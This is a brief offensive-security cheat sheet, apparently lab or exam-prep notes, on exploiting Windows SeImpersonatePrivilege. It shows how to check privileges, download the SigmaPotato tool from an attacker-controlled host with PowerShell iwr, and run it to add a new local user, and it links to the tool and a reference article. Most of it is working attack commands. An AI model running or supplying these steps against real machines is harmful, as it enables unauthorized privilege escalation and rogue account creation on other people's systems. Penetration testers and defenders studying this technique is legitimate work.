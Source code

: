 # SeImpersonatePrivilege

Non-privileged users with assigned privileges, such as _SeImpersonatePrivilege_, can potentially abuse those privileges to perform privilege escalation attacks. _SeImpersonatePrivilege_ offers the possibility to leverage a token with another security context.

By default, Windows assigns this privilege to members of:

* local _Administrators_ group&#x20;
* _LOCAL SERVICE_, _NETWORK SERVICE_, and _SERVICE_ accounts.

Check privileges:&#x20;

```powershell
whoami /priv
```

* <mark style="color:red;">`SeImpersonatePrivilege - Impersonate a client after authentication - Enabled`</mark>&#x20;

Download Sigma Potato on windows machine:

{% embed url="https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe" %}

{% code overflow="wrap" %}
```powershell
iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```
{% endcode %}



Use Sigma Potato to add a new user:

```powershell
.\SigmaPotato "net user dave4 lab /add"
```





{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}

